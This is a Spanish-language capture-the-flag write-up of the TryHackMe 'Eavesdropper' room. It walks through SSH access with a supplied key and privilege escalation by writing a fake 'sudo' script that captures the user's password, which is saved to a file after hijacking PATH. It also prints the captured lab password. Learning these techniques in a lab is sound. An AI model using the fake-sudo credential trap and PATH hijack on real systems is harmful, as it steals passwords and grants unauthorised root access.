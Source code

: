 ```yaml
---
title: Eavesdropper - Tryhackme
date: 2024-02-16T00:00:00.000Z
categories:
  - Write up
  - Linux
  - Tryhackme
tags:
  - RSA
  - path hijacking
  - easy
---
```


# Eavesdropper

En la maquina `Eavesdropper` tendremos que escalar privilegios ya que se nos otorgo una id\_rsa del usuario frank para poder iniciar sesión. En la escalada de privilegios se trata de simular o engañar a usuario que esta ejecutando un `sudo cat /etc/shadow`, en este contexto nosotros simulamos el binario `sudo` para preguntar la contrseña y asi obtenerla.

![20240213174424.png](20240213174424.png)

Link [Eavesdropper](https://tryhackme.com/room/eavesdropper)

* Created by  [tryhackme](https://tryhackme.com/p/tryhackme) and  [JohnHammond](https://tryhackme.com/p/JohnHammond) and  [cmnatic](https://tryhackme.com/p/cmnatic) and  [timtaylor](https://tryhackme.com/p/timtaylor) and  [THMDan](https://tryhackme.com/p/THMDan)

### Escalada de privilegios

Para hacer uso la `idrsa.id-rsa` el cual debemos dar permisos con el comando `chmod 600 idrsa.id-rsa`. Ahora iniciamos sesión y debemos de poder iniciar sesión.

```php
❯ ssh -i idrsa.id-rsa frank@10.10.77.111
```

#### Usuario: frank

Iniciamos sesión como el usuario `frank`

![20240213175455.png](20240213175455.png)

Enumerando el procesos veremos que se ejecuta `sudo cat /etc/shadow` cada cierto tiempo

![20240213194050.png](20240213194050.png)

#### Path Hijacking

Para obtener una shell como `root`

```php
frank@workstation:/tmp$ echo $PATH                                                                                                                                                        
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin                           
frank@workstation:/tmp$                                                                                                                                                                    
```

Crearemos un archivo llamado `sudo` en el cual ingresaremos la siguiente :

```php
#!/bin/bash

read -sp  '[sudo] password for frank: ' password
echo $password > /home/frank/pass.txt
```

1. `read -sp '[sudo] password for frank: ' password`: Esta línea utiliza el comando `read` para solicitar al usuario que ingrese una contraseña. Los parámetros `-s` y `-p` se utilizan para mantener la entrada en silencio (para ocultar la entrada de la contraseña) y para mostrar un mensaje de solicitud antes de que el usuario ingrese la contraseña, respectivamente. En este caso, el mensaje de solicitud es `'[sudo] password for frank: '`.
2. `$password > /home/frank/pass.txt`: Después de que el usuario ingrese la contraseña, se almacena en el archivo `/home/frank/pass.txt`. El contenido de la variable `$password` se redirige (`>`) al archivo `pass.txt`, lo que significa que el contenido del archivo será la contraseña ingresada por el usuario.

Ahora le debemos dar permisos

```php
frank@workstation:~$ chmod +x sudo
```

![20240213214831.png](20240213214831.png)

Lo que esta pasando es que al ejecutar `sudo cat /etc/shadow`, se detiene a ingresar la contraseña por la que creamos un script llamado `sudo` que simulara lo que hace el sudo, primero le pediremos al usuario la contraseña con `read -sp '[sudo] password for frank: ' password` y luego la almacenaremos en `/home/frank/pass.txt`. Ahora lo que haremos será secuestrar el PATH

```php
frank@workstation:~$ export  PATH=/home/frank:$PATH
```

* `export`: Este comando se utiliza en shell scripts de Unix y Linux para establecer o modificar el valor de una variable de entorno. En este caso, se utiliza para exportar la variable `PATH` para que esté disponible para los subprocesos del shell actual.
* `PATH=/home/frank:$PATH`: Esto asigna un nuevo valor a la variable `PATH`. En lugar de simplemente sobrescribir el valor actual de `PATH`, este comando agrega `/home/frank` al principio del valor existente de `PATH`, seguido de `:` para separar los distintos directorios en la variable `PATH`. `$PATH` se refiere al valor actual de `PATH`, por lo que esta parte asegura que los directorios que ya estaban en `PATH` se mantengan.

![20240213215220.png](20240213215220.png)

Una vez preparado todo saldremos de la sesión logeado y luego ingresaremos de nuevo y asi obtendremos la contraseña

![20240213215252.png](20240213215252.png)

```php
frank : !@#frankisawesome2022%*
```

Ahora teniendo la contraseña podremos enumerar con `sudo -l` y luego con `sudo su` obtendremos una shell como root

![20240213220133.png](20240213220133.png)

#### Usuario : root

![20240213220158.png](20240213220158.png)

:P

